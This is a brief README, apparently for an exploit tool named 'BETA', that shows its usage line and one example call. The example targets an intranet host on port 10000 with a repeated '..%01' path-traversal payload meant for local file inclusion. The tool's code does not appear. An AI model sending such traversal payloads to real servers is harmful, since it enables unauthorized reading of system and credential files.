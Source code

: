 # BETA

```
USAGE: ./app.py <url+lfi>

Example:
    ./app.py http://intranet.businesscorp.com.br:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01
```
<img src="https://i.imgur.com/dyBhTF3.png">
